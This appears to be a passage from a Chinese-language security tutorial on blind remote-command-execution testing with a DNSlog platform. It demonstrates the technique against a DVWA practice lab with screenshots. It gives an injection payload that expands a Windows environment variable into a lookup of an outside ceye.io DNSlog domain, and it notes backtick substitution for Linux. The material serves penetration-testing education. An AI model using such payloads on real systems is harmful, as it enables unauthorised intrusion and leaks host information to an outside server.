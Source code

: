 
![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-sql盲打示例测试结果.png)



# RCE的盲打

| 操作系统 | 盲注方式        |
| -------- | --------------- |
| windows  | %variable%      |
| linux    | variable 反引号 |

此处使用公网一个 DVWA 靶场（ Windows 系统搭建）为例进行演示，Payload：

```
%WINDIR%.52i39v.ceye.io
```

如下所示：

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-win-rce盲打测试.png)

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-win-rce盲打测试结果.png)
